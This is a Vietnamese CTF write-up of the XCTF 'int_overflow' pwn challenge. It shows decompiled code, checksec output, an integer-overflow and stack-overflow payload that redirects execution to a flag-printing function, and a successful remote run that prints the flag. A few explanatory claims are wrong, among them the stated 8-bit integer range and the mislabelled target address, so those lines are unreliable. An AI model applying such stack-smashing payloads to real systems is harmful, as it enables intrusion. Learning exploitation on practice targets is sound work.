 # XCTF - PWN Exercise - int_overflow

```c
#include<stdio.h>

int what_is_this()
{
  return system("cat flag");
}

char *__cdecl check_passwd(char *s)
{
  char dest[11]; // [esp+4h] [ebp-14h] BYREF
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Invalid Password");
    return (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    return strcpy(dest, s);
  }
}

int login()
{
  char buf[512]; // [esp+0h] [ebp-228h] BYREF
  char s[40]; // [esp+200h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  memset(buf, 0, sizeof(buf));
  puts("Please input your username:");
  read(0, s, 0x19u);
  printf("Hello %s\n", s);
  puts("Please input your passwd:");
  read(0, buf, 0x199u);
  return check_passwd(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+Ch] [ebp-Ch] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  puts("---------------------");
  puts("~~ Welcome to CTF! ~~");
  puts("       1.Login       ");
  puts("       2.Exit        ");
  puts("---------------------");
  printf("Your choice:");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    login();
  }
  else
  {
    if ( v4 == 2 )
    {
      puts("Bye~");
      exit(0);
    }
    puts("Invalid Choice!");
  }
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow λ checksec int_overflow
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow/int_overflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Xem qua tất cả các hàm chúng ta thấy có hàm `what_is_this()` thực thi đọc flag mà không có hàm nào gọi đến nó cả nên mục tiêu là ghi đè địa chỉ trả về của một hàm nào đó bằng địa chỉ của hàm `what_is_this()` (vì không có `Canary` nên ý tưởng ban đầu cơ bản là như vậy). Hàm `login()` cơ bản là nhập vào username và passwd sau đó passwd là đối số cho hàm `check_passwd(buf)`. Vấn đề nằm ở đây, vì vị trí của `username` và `passwd` trên stack được cấp phát khá lớn nên không thể cố nhập tràn rồi ghi đề return address nhưng ở hàm `check_passwd(buf)`, v3 là độ dài của `passwd` và nếu v3 thỏa mãn `v3 <= 3u || v3 > 8u` thì chuỗi `passwd` sẽ được coppy sang biến `dest[11]` nằm ở [ebp-14h] => có thể stack buffer overflow rồi ghi đè return address của hàm `check_passwd(buf)` do độ dài của buf[512] chính là `passwd`.

Bây giờ ta có payload = "A" * 0x18 + p32(0x804868b) - `0x804868b là địa chỉ của check_passwd(buf)` có độ dài là 28 > 8. Như vậy là không thỏa mãn check_passwd.

Bài này xuất hiện lỗ hổng `int overflow` hay là tràn số nguyên.

Biến v3 khai báo `unsigned __int8` nghĩa là có độ dài 8 bits. Các loại biến số nguyên khác nhau thì có phạm vi giá trị khác nhau, nếu giá trị chúng ta nhập vào nằm trong phạm vi hợp lý thì không sao, nhưng nếu giá trị nhập vào vượt quá phạm vi giá trị thì sẽ xảy ra hiện tượng tràn số nguyên. Máy tính sẽ đọc giá trị mặc định là phần sau của giá trị đầu vào. 

Ví dụ: giá trị của 8 bit int là `-255 ~ 255`. Nếu đầu vào 256, 255 tương ứng với nhị phân `1111 1111` và 256 tương ứng với nhị phân `1 0000 0000`. Khi máy tính gặp 256, nó sẽ mặc định ở phần sau 8 bit là `0000 0000` vì vậy 256 sẽ được công nhận giống 0 cũng có 8 bit sau là `0000 0000` và cứ như vậy 257 là 1, 258 là 2,...

Vậy như bài trên ta thấy giá trị `v3` thỏa mãn là `3 < v3 <= 8` tương ứng với `259 = 256 + 3 < v3 <= 256 + 8 = 264` (ở đây 256 được máy tính hiểu là số 0 do tràn số nguyên). 

Ta chọn v3 = 260, khi đó payload sẽ là `payload = "A" * 0x18 + p32(0x804868b) + "A" * 232`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 56460: Done
[+] Receiving all data: Done (53B)
[*] Closed connection to 111.200.241.244 port 56460
Success
cyberpeace{1677f09f699e94d2b65653d19ab2ddb5}

[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$  
```
